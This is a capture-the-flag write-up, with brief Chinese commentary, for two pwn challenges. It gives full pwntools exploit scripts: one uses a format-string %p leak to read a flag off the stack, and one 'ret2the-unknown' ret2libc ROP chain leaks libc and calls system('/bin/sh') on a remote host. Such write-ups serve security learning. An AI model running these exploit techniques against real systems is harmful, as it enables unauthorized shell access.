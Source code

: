 flag在栈上, 存在一个格式化字符串漏洞, 但是没有直接指向的指针, 于是用%p打印, 并接受转为字符串,

```python 
from pwn import *  
import codecs

context.arch='amd64'

# cn = process("./bin")
cn = remote("mc.ax", 31569)


# gdb.attach(cn, 'b * $rebase(0x0000000000001274)')

payload = flat("pleaseaa%70$p%71$p%72$p%73$p%74$p0x")
cn.sendline(payload)
a = cn.recvuntil('0x')[:-2]
a0 = codecs.decode(cn.recvuntil('0x')[:-2], 'hex')[::-1]
a0 += codecs.decode(cn.recvuntil('0x')[:-2], 'hex')[::-1]
a0 += codecs.decode(cn.recvuntil('0x')[:-2], 'hex')[::-1]
a0 += codecs.decode(cn.recvuntil('0x')[:-2], 'hex')[::-1]
a0 += codecs.decode(cn.recvuntil('0x')[1:-2], 'hex')[::-1]
print(a0)

cn.interactive()


```



## ret2the-unknown

先输入, 然后会给一个libc地址, 于是先回到main函数循环一次, 然后再构造getshell

```python
from pwn import * 

context.arch='amd64'

# cn = process("./bin")
cn = remote("mc.ax", 31568)

libc = ELF("./libc-2.28.so")

main = 0x000000000401186

cn.sendlineafter("get there safely?", flat('a' * 0x20, 0, main))
cn.recvuntil("to get there: ")
printf = int(cn.recv(12), 16)
blibc  = printf - libc.sym['printf']
print("blibc: " + hex(blibc))
system = blibc + libc.sym['system']
binsh  = blibc + next(libc.search(b"/bin/sh\x00"))
poprdi = 0x0000000004012A3
ret    = 0x0000000004012A4

cn.sendline(flat('a'*0x20, 0, ret, poprdi, binsh, system))


cn.interactive()

```
